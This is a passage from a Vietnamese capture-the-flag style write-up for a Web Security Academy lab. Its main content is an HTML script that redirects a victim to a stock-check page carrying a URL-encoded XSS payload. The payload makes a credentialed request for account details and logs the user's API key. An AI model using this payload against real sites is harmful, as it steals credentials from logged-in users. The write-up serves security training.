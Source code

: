 ```html
<script>
	document.location="https://stock.0aff00590428ed98c0032fb4009c0041.web-security-academy.net/?productId=%3Cscript%3E%0a%20%20%20%20var%20req%20%3d%20new%20XMLHttpRequest()%3b%0a%20%20%20%20req.onload%20%3d%20reqListener%3b%0a%20%20%20%20req.responseType%20%3d%20%27json%27%3b%0a%20%20%20%20req.open(%27get%27%2c%20%27https%3a%2f%2f0aff00590428ed98c0032fb4009c0041.web-security-academy.net%2faccountDetails%27%2c%20true)%3b%0a%20%20%20%20req.withCredentials%20%3d%20true%3b%0a%20%20%20%20req.send()%3b%0a%20%20%20%20%0a%20%20%20%20function%20reqListener()%20{%0a%20%20%20%20%20%20%20%20console.log(%27https%3a%2f%2fexploit-0a5400460475ed49c0df2f71010b00de.web-security-academy.net%2fexploit%3fAPIkey%3d%27%20%2b%20req.response.apikey)%3b%0a%20%20%20%20}%3b%0a%3C%2fscript%3E&storeId=1"
</script>
```

![Untitled](writeup_media/Untitled%2012.png)

Store và thử View exploit để kiểm tra payload, thấy ta được redirect sang Check stock và API đã được log vào console.

![Untitled](writeup_media/Untitled%2013.png)
